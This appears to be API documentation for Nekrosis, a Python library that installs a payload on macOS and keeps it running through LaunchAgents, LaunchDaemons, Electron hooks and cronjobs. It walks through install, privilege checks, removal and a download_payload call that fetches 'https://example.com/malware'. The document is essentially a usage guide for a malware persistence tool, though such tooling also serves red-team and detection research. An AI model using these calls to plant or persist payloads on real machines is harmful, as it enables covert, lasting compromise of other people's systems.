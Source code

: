# Python API Usage

To use Nekrosis in your Python code, you will need to import the `Nekrosis` class from the `nekrosis` module:

::: code-group
```python [Python API]
from nekrosis import Nekrosis
```
:::

Once imported, let's create a basic instance of the `Nekrosis` class:

::: code-group
```python [Python API]
nekrosis_obj = Nekrosis(
  payload="/path/to/payload"
)
```
:::

Here we have a number of functions we can call to interact with the `Nekrosis` class. The main functions of interest are:

| Function | Description |
|:---------|:------------|
| `supported_persistence_methods()` | List currently supported persistence methods. |
| `recommended_persistence_method()` | Return the recommended persistence method. |
| `install()` | Install the payload using the recommended persistence method. |
| `nuke()` | Remove the payload and Nekrosis from the system. |
| `current_privilege_level_str()` | Return the current privilege level as a string. |
| `is_admin()` | Check if the current user is an administrator. |
| `download_payload()` | Download file to temporary directory. |
| `change_payload()` | Change the payload to a new file. Run `reload()` to apply changes. |
| `change_custom_method()` | Change the custom method to a new method. Run `reload()` to apply changes. |
| `reload()` | Reload the Nekrosis instance to apply changes to payload or custom method. |
| `export_persistence_methods()` | Export the persistence methods to a supported format. |

## supported_persistence_methods()

* Description: List currently supported persistence methods.
* Return type: `List[str]`

::: code-group
```python [Python API]
>>> nekrosis.supported_persistence_methods()
['LaunchAgent - Current User', 'LaunchAgent - Electron', 'LaunchDaemon - Electron', 'Cronjob - Current User']
```
:::


## recommended_persistence_method()

* Description: Return the recommended persistence method.
* Return type: `str`

::: code-group
```python [Python API]
>>> nekrosis.recommended_persistence_method()
'LaunchAgent - Electron'
```
:::


## install()

* Description: Install the payload using the recommended persistence method.
* Return type: `None`


::: code-group
```python [Python API]
>>> nekrosis.install()
```
:::

## nuke()

* Description: Remove the payload and Nekrosis from the system.
* Return type: `None`

::: code-group
```python [Python API]
>>> nekrosis.nuke()
```


## current_privilege_level_str()


* Description: Return the current privilege level as a string.
* Return type: `str`

::: code-group
```python [Python API]
>>> nekrosis.current_privilege_level_str()
'Effective User ID: 502'
```
:::


## is_admin()

* Description: Check if the current user is an administrator.
* Return type: `bool`

::: code-group
```python [Python API]
>>> nekrosis.is_admin()
False
```

## download_payload()

* Description: Download file to temporary directory.
* Parameters:
  * `url`: str - The URL to download the payload from.
* Return type: `Bool` - True if the download was successful, False otherwise.

::: code-group
```python [Python API]
>>> nekrosis.download_payload("https://example.com/malware")
True
```

## change_payload()

* Description: Change the payload to a new file. Run `reload()` to apply changes.
* Parameters:
  * `payload`: str - The new payload file path.
* Return type: `None`

::: code-group
```python [Python API]
>>> nekrosis.change_payload("/path/to/new/malware")
```
:::


## change_custom_method()

* Description: Change the custom method to a new method. Run `reload()` to apply changes.
* Parameters:
  * `custom_method`: str - The new custom method.
* Return type: `None`

::: code-group
```python [Python API]
>>> nekrosis.change_custom_method("Cronjob - Current User")
```
:::


## reload()

* Description: Reload the Nekrosis instance to apply changes to payload or custom method.
* Return type: `None`

::: code-group
```python [Python API]
>>> nekrosis.reload()
```

## export_persistence_methods()

* Description: Export the persistence methods to a supported format.
* Parameters:
  * `method`: str - The method to export. Default is PLIST, supports XML and JSON.
* Return type: `str`

::: code-group
```python [Python API]
>>> nekrosis.export_persistence_methods()

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>persistence_methods</key>
	<array>
		<string>LaunchAgent - Current User</string>
		<string>LaunchAgent - Electron</string>
		<string>LaunchDaemon - Electron</string>
		<string>Cronjob - Current User</string>
	</array>
	<key>recommended_method</key>
	<string>LaunchAgent - Electron</string>
</dict>
</plist>
```
:::

